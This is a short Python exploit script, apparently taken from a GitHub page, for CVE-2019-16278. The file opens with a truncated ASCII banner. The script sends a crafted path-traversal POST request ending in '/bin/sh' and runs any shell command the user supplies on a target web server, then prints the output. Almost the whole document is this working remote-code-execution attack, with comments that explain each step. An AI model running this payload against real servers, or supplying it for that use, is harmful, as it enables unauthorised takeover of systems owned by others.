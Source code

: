 ```python
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/



"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
	# Defines an empty response
    response = ""
    try:
        while True:
			# Define 1024 bytes as the amount of bytes received by the socket.
			# Note: For best match with hardware and network realities, the value of bufsize should be a relatively small power of 2, for example, 4096. In this case is 2^10=1024,
            connection = soc.recv(1024)
			# If there's no connection then break (finish)
            if len(connection) == 0:
                break
			# If there is a connection, add it to the response variable
            response += connection
    # If it fails to receive a connection then pass (continue)
	except:
        pass
	# Return the response
    return response

def cve(target, port, cmd):
	# Defines a socket
    soc = socket.socket()
	# Connects to the target IP and PORT
    soc.connect((target, int(port)))
	# Defines the payload
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
	# Sends the payload to the target IP and PORT
    soc.send(payload)
	# Receive a connection
    receive = connect(soc)
	# Print the receive value
    print(receive)

if __name__ == "__main__":

	# Print the banner art
    print(art)

    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]
		
		# Try to execute this 3 arguments (Example:10.10.10.165 80 id)
        cve(target, port, cmd)

	# If an index error happens, like not specifying the IP then it prints the help menu
    except IndexError: 
        print(help_menu)
```
